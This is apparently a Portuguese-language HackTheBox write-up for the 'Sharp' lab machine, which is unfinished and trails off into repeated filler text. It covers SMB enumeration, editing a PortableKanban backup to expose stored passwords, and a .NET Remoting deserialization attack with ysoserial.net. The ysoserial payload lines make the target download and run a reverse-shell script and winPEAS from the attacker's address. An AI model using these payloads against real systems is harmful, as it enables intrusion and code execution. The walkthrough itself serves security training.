 <html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>


Back to all write-ups: [here](https://repo4chu.github.io/hackthebox/)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Sharp - HackTheBox - WriteUp
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![image](https://i.imgur.com/b8fWlNj.png)

**Tools** utilizadas:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
nmap
smbclient
rpcclient
ExploitRemotingService
netcat
python
ysoserial
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
PORT     STATE SERVICE            VERSION
135/tcp  open  msrpc              Microsoft Windows RPC
139/tcp  open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8888/tcp open  storagecraft-image StorageCraft Image Manager
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host


Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-12-08T12:21:23
|_  start_date: N/A

TRACEROUTE (using port 8888/tcp)
HOP RTT       ADDRESS
1   224.18 ms 10.10.14.1
2   224.76 ms 10.10.10.219
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219 -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/Fvm7tk6.png)

Vamos ao diretório kanban
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient -L \\10.10.10.219\\kanban -N
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
![Image](https://i.imgur.com/yIbnT0B.png)

Podemos ver um arquivo chamado PortableKanban.pk3.bak que apararente ser um arquivo de backup, então vamos lê-lo
![Image](https://i.imgur.com/wWij6x7.png)

Ao abri-lo, podemos ver que, dentro do arquivo existem senhas criptografadas:
![Image](https://i.imgur.com/m4DVEag.png)

Começamos acessando o serviço SMB para copiar o programa para nossa maquina:

![Image](https://i.imgur.com/Wkz1IMK.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\kanban -N
get pkb.zip
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Essa máquina, pela primeira vez tive que criar uma máquina Windows para usar como atacante...
Extraímos os arquivos do nosso arquivo pkb.zip

![Image](https://i.imgur.com/u7nyOBw.png)


Ao executarmos o arquivo PortableKanban.exe podemos perceber que ele faz a criação do arquivo PortableKanban.pk3.bak onde ele guarda as credenciais...
Então vamos substituir pelo arquivo PortableKanban.pk3.bak que encontramos em nosso alvo.

Ao substituir o arquivo PortableKanban.pk3, precisamos de credenciais para conseguir acessar o programa.

![Image](https://i.imgur.com/q1UFNLT.png)

![Image](https://i.imgur.com/GSP4UQv.png)

Pesquisando um pouco mais sobre o Kanban, pude perceber que dentro do programa é possivel retornar as senhas em plain-text com uma conta de Administrador...
Em nosso arquivo temos essas informações:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"e8e29158d70d44b1a1ba4949d52790a0","Name":"Administrator","Initials":"","Email":"","EncryptedPassword":"k+iUoOvQYG98PuhhRC7/rg==","Role":"Admin","Inactive":false,"TimeStamp":637409769245503731}
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"Ua3LyPFM175GN8D3+tqwLA==","Role":"User","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Portanto, temos um usuário administrador e um user comum.
O que podemos fazer é tentar editar o arquivo que guarda as senhas para acessar
Primeiro, vamos remover a senha do usuário lars para conseguir a senha do usuário Administrator, para isso deixaremos o campo 'EncryptedPassword' vazio, além disso, mudaremos a parte 'Role' de user para Admin.
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"Id":"0628ae1de5234b81ae65c246dd2b4a21","Name":"lars","Initials":"","Email":"","EncryptedPassword":"","Role":"Admin","Inactive":false,"TimeStamp":637409769265925613}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Após isso, tentamos acessar o programa com usuário 'lars' sem senha.

![Image](https://i.imgur.com/Af60F1P.png)


Ao desmarcar a opção Hide Passwords, temos nossas primeiras credenciais:
![Image](https://i.imgur.com/fk984oq.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Administrator:G2@$btRSHJYTarg
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Com isso, podemos voltar para nosso arquivo PortableKanban.pk3 inicial.
Agora ao abrirmos o Kanban, usamos as credenciais de Administrator.

Agora temos credenciais do usuário lars e do usuário Administrator:
![Image](https://i.imgur.com/tlGO5us.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
lars:G123HHrth234gRG
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

No outro diretório do SMB, chamado dev:

![Image](https://i.imgur.com/Er6JZCu.png)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smbclient \\\\10.10.10.219\\dev -U lars
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Fazemos o download de todos esses arquivos para a nossa máquina para podermos analisarmos.

Usamos o dnSpy para analisar os arquivos .exe
Dentro do arquivo Client.exe, temos uma informação interessante:

![Image](https://i.imgur.com/gUNQ87R.png)

Temos uma credencial e um endereço:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
debug:SharpApplicationDebugUserPassword123!
tcp://localhost:8888/SecretSharpDebugApplicationEndpoint
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Pesquisando sobre como interagir com esse serviço, encontramos um exploit que interage com esse serviço através do Remoting.Channels.Tcp, o [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService).

Podemos compilar ele em nossa máquina, ou já fazer o download dele [compilado](https://github.com/parteeksingh005/ExploitRemotingService_Compiled).

Agora precisamos preparar nosso payload que enviaremos atraves do ExploitRemotingService.
Para isso vamos precisar do python, [netcat](https://eternallybored.org/misc/netcat/) e também do [yososerial](https://github.com/pwntester/ysoserial.net).

Devemos compilar o yososerial ou baixa-lo já [compilado](https://github.com/pwntester/ysoserial.net/releases/tag/v1.34).

Após isso, devemos preparar nossa shell.
Usaremos está [shell.ps1](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1)

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('10.10.14.136/chu.ps1')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ExploitRemotingService.exe --user=debug --pass=SharpApplicationDebugUserPassword123! tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
.\ysoserial.exe -f BinaryFormatter -o base64 -g TypeConfuseDelegate -c "powershell -c IEX(new-object net.webclient).downloadstring('http://10.10.14.128/winpeas.exe')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo escrevendo 





if i helped you, add + respect at my profile :D
<html>
 <body>
  <script src="https://www.hackthebox.eu/badge/148108"></script>
 </body>
 </html>
 
my references
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
https://parsiya.net/blog/2015-11-14-intro-to-.net-remoting-for-hackers/
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp?view=netframework-4.8
https://docs.microsoft.com/pt-br/dotnet/api/system.runtime.remoting.channels.tcp.tcpchannel?view=netframework-4.8
https://github.com/tyranid/ExploitRemotingService
https://eternallybored.org/misc/netcat/
https://github.com/pwntester/ysoserial.net
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
